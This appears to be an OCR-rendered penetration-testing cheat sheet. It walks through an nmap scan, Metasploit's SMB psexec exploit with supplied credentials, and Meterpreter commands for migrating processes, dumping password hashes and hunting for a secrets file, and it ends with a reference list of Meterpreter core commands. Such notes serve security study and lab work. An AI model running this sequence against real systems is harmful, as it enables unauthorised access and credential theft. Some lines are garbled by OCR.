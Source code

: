 Run
      nmap -sN -Pn -A [target IP] 

      msfconsole 
      search exploit/windows/smb/psexec

      use0


      set SMBPass [password]
      set SMBUser [user]
      run
      
      sysinfo


      migrate 772
      hashdump
      

      search -f secrets.txt
Used to locate files      

      cat "path/to/file" 


<b> Core commands </b>

    background: 
               Backgrounds the current session
    exit: 
         Terminate the Meterpreter session
    guid: 
         Get the session GUID (Globally Unique Identifier)
    help: 
         Displays the help menu
    info: 
         Displays information about a Post module
    irb: 
        Opens an interactive Ruby shell on the current session
    load: 
         Loads one or more Meterpreter extensions
    migrate: 
       Allows you to migrate Meterpreter to another process
    run: 
        Executes a Meterpreter script or Post module
    sessions: 
             Quickly switch to another session
